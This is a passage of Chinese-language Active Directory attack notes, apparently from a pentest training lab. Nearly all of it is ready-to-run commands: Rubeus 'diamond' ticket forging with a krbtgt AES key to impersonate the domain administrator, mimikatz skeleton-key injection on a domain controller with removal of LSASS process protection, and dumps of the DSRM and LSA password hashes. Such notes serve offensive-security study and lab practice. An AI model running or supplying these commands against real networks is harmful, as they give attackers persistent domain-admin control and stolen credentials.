 如果请求WMI服务，则会有远程执行能力


# Diamond Ticket（钻票）
需要krbtgt的AES keys

制作一张钻票
```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

我们还可以使用 /tgtdeleg 选项代替凭据，以防我们以域用户身份访问
```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


# Skeleton Key（万能钥匙）

制作万能钥匙，密码是：```mimikatz```
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

使用万能钥匙（mimikatz）用Administrator身份进入机器
```
Enter-PSSession –Computername us-dc –credential us\Administrator
```


如果 lsass是受保护 ，在mimikatz上使用下面命令提升权限，这个操作会留下日志，不是好的opsec
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

# DSRM


Dump DSRM password (needs DA privs)
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc
```

上面的哈希，与下面命令导出的哈希进行比较
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername us-dc
```
